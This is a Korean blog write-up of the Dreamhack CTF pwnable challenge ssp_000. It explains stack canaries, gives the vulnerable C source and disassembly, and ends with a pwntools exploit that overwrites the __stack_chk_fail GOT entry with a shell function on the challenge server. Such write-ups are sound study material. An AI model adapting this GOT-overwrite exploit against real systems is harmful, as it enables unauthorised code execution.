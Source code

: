 ```yaml
---
published: true
image: /img
layout: post
title: "[Dreamhack] PWN ssp_000"
excerpt: "드림핵 포너블 ssp_000 문제풀이"
tags: [Dreamhack, pwnable, ctf, writeup]
math: true
date: 2022-12-22 16:30
---
```


이번 ssp_000문제는 카나리에 대한 문제다. 메모리 스텍의 오염을 인식하고 오염되었을 경우 바이너리를 강제 종료시키는 기능을 한다. 스텍 사이에 랜덤의 값을 넣고 이를 검사해 스텍이 오버플로우 되었는지 확인한다. 이렇게 메모리 커럽션을 어렵게 하는 기법을 Stack Smashing Protector(SSP)라고 한다.

우선 먼저 코드를 살펴보자.

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void get_shell() {
    system("/bin/sh");
}

int main(int argc, char *argv[]) {
    long addr;
    long value;
    char buf[0x40] = {};

    initialize();


    read(0, buf, 0x80);

    printf("Addr : ");
    scanf("%ld", &addr);
    printf("Value : ");
    scanf("%ld", &value);

    *(long *)addr = value;

    return 0;
}
```

함수로 쉘이 함수로 있고 main함수는 간단한 버퍼 오버플로우를 일으킬 수 있다. 다만 실행시킨 바이너리의 카나리 값을 릭할 방법이 마땅치 않는다. 이 경우는 조금 생각을 해볼 필요가 있다. 만약 스텍을 오염시키면 __stack_chk_fail 함수가 실행되면서 종료가 될것이다.

다만 main함수를 보면 원하는 위치에 값을 바꿔쓸수 있는것을 볼수 있다. 이를 이용해 스텍이 오버플로우 되었을때 동작할 함수를 __stack_chk_fail가 아닌 get_shell함수로 바꿔주면 쉘을 얻을 수 있을 것이다.

우선 main함수의 어셈블리를 확인해보자

```c
   0x00000000004008fb <+0>:     push   rbp
   0x00000000004008fc <+1>:     mov    rbp,rsp
   0x00000000004008ff <+4>:     sub    rsp,0x70
   0x0000000000400903 <+8>:     mov    DWORD PTR [rbp-0x64],edi
   0x0000000000400906 <+11>:    mov    QWORD PTR [rbp-0x70],rsi
   0x000000000040090a <+15>:    mov    rax,QWORD PTR fs:0x28
   0x0000000000400913 <+24>:    mov    QWORD PTR [rbp-0x8],rax
   0x0000000000400917 <+28>:    xor    eax,eax
   0x0000000000400919 <+30>:    lea    rdx,[rbp-0x50]
   0x000000000040091d <+34>:    mov    eax,0x0
   0x0000000000400922 <+39>:    mov    ecx,0x8
   0x0000000000400927 <+44>:    mov    rdi,rdx
   0x000000000040092a <+47>:    rep stos QWORD PTR es:[rdi],rax
   0x000000000040092d <+50>:    mov    eax,0x0
   0x0000000000400932 <+55>:    call   0x40088e <initialize>
   0x0000000000400937 <+60>:    lea    rax,[rbp-0x50]
   0x000000000040093b <+64>:    mov    edx,0x80
   0x0000000000400940 <+69>:    mov    rsi,rax
   0x0000000000400943 <+72>:    mov    edi,0x0
   0x0000000000400948 <+77>:    call   0x400710 <read@plt>
   0x000000000040094d <+82>:    mov    edi,0x400a55
   0x0000000000400952 <+87>:    mov    eax,0x0
   0x0000000000400957 <+92>:    call   0x4006f0 <printf@plt>
   0x000000000040095c <+97>:    lea    rax,[rbp-0x60]
   0x0000000000400960 <+101>:   mov    rsi,rax
   0x0000000000400963 <+104>:   mov    edi,0x400a5d
   0x0000000000400968 <+109>:   mov    eax,0x0
   0x000000000040096d <+114>:   call   0x400750 <__isoc99_scanf@plt>
   0x0000000000400972 <+119>:   mov    edi,0x400a61
   0x0000000000400977 <+124>:   mov    eax,0x0
   0x000000000040097c <+129>:   call   0x4006f0 <printf@plt>
   0x0000000000400981 <+134>:   lea    rax,[rbp-0x58]
   0x0000000000400985 <+138>:   mov    rsi,rax
   0x0000000000400988 <+141>:   mov    edi,0x400a5d
   0x000000000040098d <+146>:   mov    eax,0x0
   0x0000000000400992 <+151>:   call   0x400750 <__isoc99_scanf@plt>
   0x0000000000400997 <+156>:   mov    rax,QWORD PTR [rbp-0x60]
   0x000000000040099b <+160>:   mov    rdx,rax
   0x000000000040099e <+163>:   mov    rax,QWORD PTR [rbp-0x58]
   0x00000000004009a2 <+167>:   mov    QWORD PTR [rdx],rax
   0x00000000004009a5 <+170>:   mov    eax,0x0
   0x00000000004009aa <+175>:   mov    rcx,QWORD PTR [rbp-0x8]
   0x00000000004009ae <+179>:   xor    rcx,QWORD PTR fs:0x28
   0x00000000004009b7 <+188>:   je     0x4009be <main+195>
   0x00000000004009b9 <+190>:   call   0x4006d0 <__stack_chk_fail@plt>
   0x00000000004009be <+195>:   leave  
   0x00000000004009bf <+196>:   ret
```

우리가 해당 바이너리를 익스하기 위해 필요한 것은 두가지다. get_shell 함수의 주소와 __stack_chk_fail 함수의 got 주소이다. 이것들 모두 쉽게 확인할 수 있다. __stack_chk_fail의 got는 해당 함수 plt의 주소를 disass 하면 확인할 수 있다.

```c
pwndbg> disass get_shell
Dump of assembler code for function get_shell:
   0x00000000004008ea <+0>:     push   rbp
   0x00000000004008eb <+1>:     mov    rbp,rsp
   0x00000000004008ee <+4>:     mov    edi,0x400a4d
   0x00000000004008f3 <+9>:     call   0x4006e0 <system@plt>
   0x00000000004008f8 <+14>:    nop
   0x00000000004008f9 <+15>:    pop    rbp
   0x00000000004008fa <+16>:    ret    
End of assembler dump.
```

```c
pwndbg> disass 0x4006d0
Dump of assembler code for function __stack_chk_fail@plt:
   0x00000000004006d0 <+0>:     jmp    QWORD PTR [rip+0x20094a]        # 0x601020 <__stack_chk_fail@got.plt>
   0x00000000004006d6 <+6>:     push   0x1
   0x00000000004006db <+11>:    jmp    0x4006b0
End of assembler dump.
```

get_shell 함수의 주소는 0x4008ea, __stack_chk_fail 함수의 got값은 0x601020로 확인할 수 있다. 이를 바탕으로 __stack_chk_fail함수 주소를 get_shell 함수로 바꾸기 위해 익스플로잇 코드를 작성해봤다. 해당 익스 코드는 다음과 같다.

```python
from pwn import *
context.update(arch='amd64', os='linux')

c = remote("host3.dreamhack.games", 22697);

stackChkFail = 0x601020
getShell = 0x4008ea

paylaod = "\x90"*0x50

c.send(paylaod)
c.sendlineafter(b"Addr : ", str(stackChkFail))
c.sendlineafter(b"Value : ", str(getShell))

c.interactive()
```

간단하게 카나리 부분을 덮어쓰기 하여 __stack_chk_fail를 인위적으로 일으키면 그전에 바꿔치기한 함수인 get_shell이 실행된다.